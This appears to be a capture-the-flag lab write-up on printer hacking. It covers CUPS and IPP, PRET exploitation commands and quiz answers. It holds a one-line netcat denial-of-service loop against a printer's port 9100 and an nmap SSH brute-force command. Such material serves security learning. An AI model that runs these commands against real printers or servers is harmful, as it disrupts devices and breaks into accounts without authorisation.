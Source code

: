 # Printer Hacking 101

**Date:** 13, December, 2020

**Author:** Dhilip Sanjay S

---

## Learning Objectives
- CUPS Server (Common UNIX Printing System)
- IPP (Internet Printing Protocol)
- [PRET - Printer Exploitation](https://github.com/RUB-NDS/PRET)
- [Printer Security Testing Cheat Sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet)

### Targeting and Exploiting
- Locating Printers
    - `python pret.py`
    - `nmap -p 631 <IP_RANGE>`
- Exploiting
    - Three options in PRET:
        - PS (PostScript)
        - PJL (Printer Job Language)
        - PCL (Printer Command Language)
    - Try out all the three languages, to check if the language will be understood by the printer
        ```bash
        python pret.py laserjet.lan ps
        python pret.py {IP} pjl
        python pret.py /dev/usb/lp0 pcl    
        ```
    - Once you get a shell-like output, type `help` to see the different commands available.
    

## Solutions
### What port does IPP run on?
- **Answer:** 631
- **Impact** 
    - An open IPP port can expose a lot of sensitive information such as *printer name, location, model, firmware version, or even printer wifi SSID.*

---

### How would a simple printer TCP DoS attack look as a one-line command?
- **Answer:** `while true; do nc printer 9100; done`
- **Explanation:** 
    - Replace `printer` with `<PRINTER_IP>`
    - Since it is an infinite loop, the printer will remain busy.

---

### Review the cheat sheet provided in the task reading above. What attack are printers often vulnerable to which involves sending more and more information until a pre-allocated buffer size is surpassed?
- **Answer:** Buffer Overflow

---

### Brute forcing SSH password
- [Null Byte Article](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)
- Use any of the following
    1. Metasploit
    2. Hydra
    3. Nmap

- Using nmap:
    - `nmap <MACHINE_IP> -p 22 --script ssh-brute --script-arg userdb=user.txt`
    - Since we know the username, `user.txt` must contain only `printer`

---

### Connect to the printer per the instructions above. Where's the Fox_Printer located?
- **Answer:** Skidy's basement
- **Steps to Reproduce:** Visit `http://<MACHINE_IP>:631/printers/`

![Image](Images/PrinterHacking101-1.png) 

---

### What is the size of a test sheet?
- **Answer:** 1k
- **Steps to Reproduce:**
    - Visit `http://<MACHINE_IP>:631/printers/Fox_Printer`
    - Select `Print Test Page` option from the Drop-down box.
    - The jobs will be listed at the bottom of the page.
    - Check the `size` column in that table.

![Image](Images/PrinterHacking101-2.png)     

---